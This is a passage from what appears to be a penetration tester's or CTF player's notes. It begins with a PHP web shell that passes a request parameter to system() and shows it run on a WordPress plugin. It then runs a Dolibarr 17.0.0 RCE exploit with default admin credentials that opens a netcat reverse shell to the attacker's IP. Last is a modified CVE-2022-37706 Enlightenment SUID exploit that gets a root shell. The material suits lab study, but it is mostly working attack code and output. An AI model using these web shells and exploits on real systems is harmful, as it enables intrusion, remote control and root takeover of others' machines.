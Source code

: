 &#x3C;?php if(isset($_REQUEST["cmd"])){ echo "&#x3C;pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "&#x3C;/pre>"; die; }?>

http://10.10.110.100:65000/wordpress/wp-content/plugins/hello.php?cmd=id
- code execution...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
</code></pre>

### [Dolibarr 17.0.0](https://www.dolibarr.org)

* auth RCE [https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253)

```
python3 exploit.py http://crm.board.htb admin admin 10.10.14.53 9001
[*] Trying authentication...
[**] Login: admin
[**] Password: admin
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection

nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.53] from (UNKNOWN) [10.10.11.11] 53264
bash: cannot set terminal process group (858): Inappropriate ioctl for device
bash: no job control in this shell
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ 
```

### CVE-2022-37706-Enlightenment-0.25.3-LPE

* If you see a suid binary called `enlightenment_sys`
* [https://www.exploit-db.com/exploits/51180](https://www.exploit-db.com/exploits/51180)
* in order to exploit, Ive had to alter the script

```
# change below 
${file} /bin/mount -o
noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u),
"/dev/../tmp/;/tmp/exploit" /tmp///net

# to this (no line breaks)
${file} /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
```

```
./poc.sh 
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Welcome to the rabbit hole :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),1000(larissa)
# 
```
